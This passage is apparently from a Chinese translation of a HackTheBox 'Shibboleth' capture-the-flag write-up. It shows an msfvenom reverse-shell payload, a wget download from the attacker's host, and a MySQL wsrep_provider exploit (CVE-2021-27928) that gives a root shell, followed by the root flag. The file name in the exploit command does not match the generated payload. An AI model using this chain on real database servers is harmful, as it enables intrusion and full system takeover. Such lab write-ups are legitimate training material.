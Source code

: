 首先用 MSFVenom 创建我们的漏洞:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.62 LPORT=4444 -f elf-so -o pencer.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: pencer.so
```

在 Kali 上启动一个网络服务器，这样我们就可以获取文件:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

拉过来:

```
ipmi-svc@shibboleth:/dev/shm$ wget http://10.10.14.62/pencer.so
--2021-11-28 22:47:14--  http://10.10.14.62/pencer.so
Connecting to 10.10.14.62:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘pencer.so’
pencer.so          100%[===========>]     476  --.-KB/s    in 0s
2021-11-28 22:47:14 (81.9 MB/s) - ‘pencer.so’ saved [476/476]
```

# 权限提升

在 Kali 上启动 netcat 监听器，然后使用 mysql 在机器上执行漏洞利用:

```
ipmi-svc@shibboleth:/dev/shm$ mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/dev/shm/CVE-2021-27928.so";'
Enter password:
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query
```

# 根标志

切换回 Kali，看看我们有一个根壳。让我们抓住旗子:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.124] 33088id
uid=0(root) gid=0(root) groups=0(root)cat /root/root.txt
064275d7a96d3f300917a45b59bf97b6
```

完成了。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 4 月 25 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-shibboleth/)*。*